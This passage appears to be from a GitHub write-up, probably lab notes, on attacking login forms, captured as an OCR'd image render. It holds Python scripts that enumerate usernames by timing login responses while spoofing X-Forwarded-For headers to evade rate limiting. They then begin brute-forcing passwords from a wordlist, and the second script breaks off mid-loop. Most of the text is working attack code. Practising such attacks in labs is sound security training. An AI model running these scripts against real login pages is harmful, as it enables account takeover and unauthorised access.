 ```python
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................."
            self.url = self.args[1]
            self.cookies = {}
            self.headers = {'X-Forwarded-For': f"hihihi{x}"}
            start_time = time.time()
            _ = self.req.post(self.url, data={"username": self.username, "password": self.password}, proxies=self.proxies, verify=False, cookies=self.cookies, headers=self.headers)
            end_time = time.time()
            duration = end_time - start_time
            print(f"Request took {duration} seconds for username {self.username}")
            end_times.append([duration, self.username])
        longest_time = 0
        for duration, username in end_times:
            if duration > longest_time:
                longest_time = duration
                self.username = username
        print(f"⚖️ Found username: {self.username}")
        with open("auth-timing-username-result", "w") as f:
            f.write(self.username)
        exit(0)

AuthBruteForceUsername().brute_force_username()
```

<a href="https://asciinema.org/a/AWR40GHGsAUGCvLmRZDLkIaY6" target="_blank"><img src="https://asciinema.org/a/AWR40GHGsAUGCvLmRZDLkIaY6.svg" /></a>



## Password brute forcing with different timing using Python

```python
import requests, urllib3
import sys
from string import printable

urllib3.disable_warnings()

class AuthBruteForcePassword:

    def __init__(self):
        # get command line arguments
        self.args = sys.argv
        self.proxies = {
            "https": "https://0.0.0.0:8088"
        }
        self.req = requests.Session()
        self.password = ""
        self.username = ""
        with open("auth-timing-username-result") as f:
            self.username = f.read().strip()

    def brute_force_password(self):
        print("🔮 Determining passwword for username", self.username)
        passwords = []
        with open("auth-timing/auth-timing-passwords") as f:
            passwords = f.readlines()
        for x, password in enumerate(passwords):
            print(f"Trying password: {password.strip()}❓")
```